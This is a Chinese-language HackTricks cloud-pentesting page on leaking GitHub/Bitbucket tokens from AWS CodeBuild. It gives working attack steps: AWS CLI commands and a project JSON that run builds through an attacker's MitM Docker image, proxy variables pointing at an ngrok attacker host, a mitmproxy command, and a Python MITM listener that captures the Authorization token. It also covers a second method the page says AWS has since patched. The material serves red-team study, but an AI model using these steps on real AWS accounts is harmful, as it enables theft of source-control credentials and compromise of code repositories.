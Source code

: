 # AWS Codebuild - Token Leakage

{% hint style="success" %}
学习和练习 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

## 恢复 Github/Bitbucket 配置的 Tokens

首先，检查是否有任何配置的源凭证可以泄露：
```bash
aws codebuild list-source-credentials
```
### 通过 Docker 镜像

如果你发现账户中设置了对例如 Github 的认证，你可以通过让 Codebuild **使用特定的 Docker 镜像** 来运行项目构建，从而**泄露**该**访问**（GH token 或 OAuth token）。

为此，你可以**创建一个新的 Codebuild 项目**或更改现有项目的**环境**以设置**Docker 镜像**。

你可以使用的 Docker 镜像是 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基础的 Docker 镜像，它将设置**环境变量 `https_proxy`**、**`http_proxy`** 和 **`SSL_CERT_FILE`**。这将允许你拦截主机中大部分的流量，主机由 **`https_proxy`** 和 **`http_proxy`** 指定，并信任 **`SSL_CERT_FILE`** 中指定的 SSL 证书。

1. **创建并上传你自己的 Docker MitM 镜像**
* 按照仓库的说明设置你的代理 IP 地址和 SSL 证书，并**构建 Docker 镜像**。
* **不要设置 `http_proxy`** 以避免拦截到元数据端点的请求。
* 你可以使用 **`ngrok`**，例如 `ngrok tcp 4444`，将代理设置到你的主机。
* 一旦你构建了 Docker 镜像，**将其上传到公共仓库**（Dockerhub, ECR...）。
2. **设置环境**
* 创建一个**新的 Codebuild 项目**或**修改**现有项目的环境。
* 将项目设置为使用**之前生成的 Docker 镜像**。

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **在你的主机上设置 MitM 代理**

* 如 **Github 仓库**中所示，你可以使用类似的东西：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy 版本使用的是 9.0.1**，据报告在版本 10 中可能无法工作。
{% endhint %}

4. **运行构建并捕获凭证**

*   你可以在 **Authorization** 头中看到 token：

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

这也可以通过 aws cli 完成，类似于

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~通过 HTTP 协议~~

{% hint style="success" %}
**AWS 在 2023 年 2 月 20 日那周的某个时间（我认为是星期五）修正了这个漏洞。所以攻击者不能再滥用了 :)**
{% endhint %}

具有 **CodeBuild 高级权限的攻击者可以泄露配置的 Github/Bitbucket 令牌**，或者如果权限是通过 OAuth 配置的，则可以泄露 **用于访问代码的临时 OAuth 令牌**。

* 攻击者可以将环境变量 **http\_proxy** 和 **https\_proxy** 添加到指向他机器的 CodeBuild 项目中（例如 `http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 然后，将 github 仓库的 URL 更改为使用 HTTP 而不是 HTTPS，例如：\*\*http://\*\*github.com/carlospolop-forks/TestActions
* 然后，在代理变量（http\_proxy 和 https\_proxy）指向的端口上运行 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) 中的基本示例
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击 **Build the project**，**凭证** 将以 **明文** (base64) 形式发送到 mitm 端口：

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
现在攻击者将能够从他的机器上使用该 token，列出它拥有的所有权限，并且比直接使用 CodeBuild 服务更容易滥用。
{% endhint %}

{% hint style="success" %}
学习和练习 AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库来分享黑客技巧**。

</details>
{% endhint %}
